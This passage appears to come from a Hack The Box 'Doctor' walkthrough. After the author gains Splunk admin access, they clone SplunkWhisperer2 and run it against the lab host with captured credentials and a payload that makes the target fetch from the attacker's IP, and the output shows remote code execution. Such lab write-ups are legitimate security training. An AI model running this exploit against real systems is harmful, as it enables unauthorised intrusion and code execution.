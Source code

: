 ![Untitled](/assets/images/2022-04-06-doctor/Untitled3.png)

That worked, I'm now logged in to the admin console. So I need to find a tool for RCE. I already found one in the enumeration phase, which I could not use at that stage of the attack because I had no credentials. Let's download it:

```bash
┌──(user㉿KaliVM)-[/tools/LinPEAS]
└─$ git clone https://github.com/cnotin/SplunkWhisperer2.git
Cloning into 'SplunkWhisperer2'...
remote: Enumerating objects: 55, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 55 (delta 1), reused 2 (delta 1), pack-reused 48
Receiving objects: 100% (55/55), 20.70 KiB | 2.59 MiB/s, done.
Resolving deltas: 100% (17/17), done.
```

Let's test the exploit:

```bash
┌──(user㉿KaliVM)-[/tools/LinPEAS/SplunkWhisperer2/PySplunkWhisperer2]
└─$ python3 PySplunkWhisperer2_remote.py --host doctor.htb --lhost 10.10.16.6 --username shaun --password Guitar123 --payload "wget http://10.10.16.6/test.html"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpg3ft8_wr.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.16.6:8181/
10.10.10.209 - - [22/Sep/2021 22:21:46] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```